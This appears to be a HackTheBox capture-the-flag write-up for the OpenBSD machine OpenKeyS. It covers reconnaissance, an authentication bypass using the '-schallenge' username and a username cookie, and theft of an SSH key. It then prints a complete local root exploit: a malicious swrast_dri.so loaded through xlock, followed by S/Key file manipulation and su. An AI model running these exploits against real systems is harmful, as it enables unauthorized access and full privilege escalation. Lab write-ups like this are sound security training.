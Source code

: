 ```yaml
---
title: HackTheBox - OpenKeyS 
category: writeup
tags: hackthebox
---
```

# Summary

OpenKeyS is an OpenBSD machine that is vulnerable to the the OpenBSD authentication vulnerabilites which allow an attacker to bypass authentication and escalate privileges. We first bypass the authentication on the webpage and get the user's private `SSH` key using which we are able to log in and then escalate privileges.

# NMAP

The NMAP scan reveals the following:

```bash
PORT     STATE    SERVICE        REASON         VERSION
22/tcp   open     ssh            syn-ack ttl 63 OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 5e:ff:81:e9:1f:9b:f8:9a:25:df:5d:82:1a:dd:7a:81 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDe8l1l+kUpCKDTLXtOj9CY1xcde98zhpP0ANXSj7eI2KRVQuOpowxjzNf/NrDoIffaCtsNY36nnVw5JDbX2zU0+wKeMEoVHBlelNSneBHrYv4CuhlO7ll6tHZcs0kWSvFk8nipNTYXSm48EhFbspsC89Yv7REeRFq+uE1unEo8d+Dt2MmDzNnu+QtATp4wlSE1L
IROq7cDRsR10S5j6fnaRbEYGquXSJkW6sV6PTZhGm8y6sXXQ3RynYJ129m5YTevg4fKpF/FkfEuPn5sRIj+aZCT6GjP9WEae+R/6lVEcMOmuq9K9CCqoGuwGakoK+m/upQDlI7pXcN8359a7XcMXSgriJIjV8yv350JsdLqIN704w5NLowAaInYPqXKNrXdxa5olprzF1dMlN0ClvV96tX9bg2ERrRhrLbSOZudrqef
MNjSKqdNWLh7AQh8TnwdDMdXf/IOat1CjQMNwPTi3XkklU+Lm92J8Nd6gO8uLd6HuRLPVxUqJp6hKwLIbHM=
|   256 64:7a:5a:52:85:c5:6d:d5:4a:6b:a7:1a:9a:8a:b9:bb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOM044THRHSb9MKRgg+pCGqLErFIOMaaGjCwwSpxVFsdQWW9kg3fROwqwtNVM1McgJ4Y4NwVzl+w5DZGK2OdhNE=
|   256 12:35:4b:6e:23:09:dc:ea:00:8c:72:20:c7:50:32:f3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIKuJoZTZonWY0/JkBfYeM2POVzE/TZfUJGA10PMXB1s
80/tcp   open     http           syn-ack ttl 63 OpenBSD httpd
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
2875/tcp filtered dxmessagebase2 no-response
5051/tcp filtered ida-agent      no-response
```

# PORT 80

Checking port 80 reveals a login page which doesn't appear to be vulnerable to `SQLI`.

Fuzzing the directories give us the following output.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.199/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/26 02:15:20 Starting gobuster
===============================================================
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/js (Status: 301)
/vendor (Status: 301)
===============================================================
2020/07/26 02:16:35 Finished
===============================================================
```

We see an interesting includes directory which contains two files: `auth.php` and `auth.php.swp.` 

Downloading and opening the `auth.php.swp` file reveals the following:

```
return True; $_SESSION['last_activity'] = $time; // Session is active, update last activity time and return True { else } return False; close_session(); { ($time - $_SESSION['last_activity']) > $session_timeout) if (isset($_SESSION['last_activity']) && $time = $_SERVER['REQUEST_TIME']; // Has the session expired? { if(isset($_SESSION["logged_in"])) // Is the user logged in? session_start(); // Start the session $session_timeout = 300; // Session timeout in seconds{function is_active_session()} return $retcode; system($cmd, $retcode); $cmd = escapeshellcmd("../auth_helpers/check_auth " . $username . " " . $password);{function authenticate($username, $password)
```

The above code checks the `SESSION` variable `username` which is set using `$_REQUEST['username'].` The `$_REQUEST` variable accepts data through POST, GET and COOKIE. So if we set a cookie with the username `jennifer` found in the script, it will set the username for the session as the one specified in the cookie.

Further reading through the code reveals a `../auth_helpers/check_auth` binary which can be downloaded. However, it is not of much use for us just yet.

We have a few bits of information by now:

- Username: `jennifer`
- OpenBSD httpd server: `NMAP SCAN`

Now we just need to see if we can find a vulnerability in the server with something related to `authentication` as it has been mentioned a lot in the script.

Googling around for `openbsd authentication http vulnerability` show a few vulnerability reports for the OpenBSD authentication system which are not specifically used for HTTP authentication. 

[](https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt)

However, reading further reading reveals that the vulnerability exists in the OpenBSD's authentication system itself. 

> We discovered an authentication-bypass vulnerability in OpenBSD's
authentication system: this vulnerability is remotely exploitable in
smtpd, ldapd, and radiusd, but its real-world impact should be studied
on a case-by-case basis. For example, sshd is not exploitable thanks to
its defense-in-depth mechanisms.

Reading further also reveals that the vulnerability exists in the challenge protocol of the authentication system. Specifying the username `-schallenge` forces a passwd style authentication and automatically bypasses the authentication.

## Exploitation

We now know that using the username `-schallenge` while logging in will just automatically bypass the login. However trying to do that gives us the following error:

```
OpenSSH key not found for user -schallenge
```

Going back to the username jennifer that we found from our earlier findings we set the cookie `username` to `jennifer` as the variable `$_REQUEST` will accept a username through COOKIE, GET or POST.

Doing the above logs us in as jennifer and presents us with the ssh key for the user.

# Privilege Escalation

After logging in with the ssh key we can grab the user flag.

Further reading through the article, the author outlines ways to escalate privileges through `xlock` and `S/Key and YubiKey`. 

Futher readings:

[xlock(1) - OpenBSD manual pages](https://man.openbsd.org/xlock)

Following the article step by step we open our own driver and gain the permissions with the group `auth` which can then be used to exploit `CVE-2019-19522` where we need to make sure that the authentication type of either `yubikey` or `skey` has been enabled.

We can check the following in the `/etc/login.conf` with the line `auth-defaults:auth=passwd,skey:` this reveals that we can use this exploit.

Following the exploit step by step gives us root.

```
openkeys$ cat > swrast_dri.c << "EOF"
> #include <paths.h>
> #include <sys/types.h>
> #include <unistd.h>
> 
> static void __attribute__ ((constructor)) _init (void) { 
>     gid_t rgid, egid, sgid;
>     if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
>     if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
> 
>     char * const argv[] = { _PATH_KSHELL, NULL };
>     execve(argv[0], argv, NULL);
>     _exit(__LINE__);
> }
> EOF
openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c
openkeys$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[4] 89015
openkeys$ _XSERVTransmkdir: Owner of /tmp/.X11-unix should be set to root

openkeys$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66
openkeys$ id
uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)
openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
openkeys$ chmod 0600 /etc/skey/root
openkeys$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password:
openkeys# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```
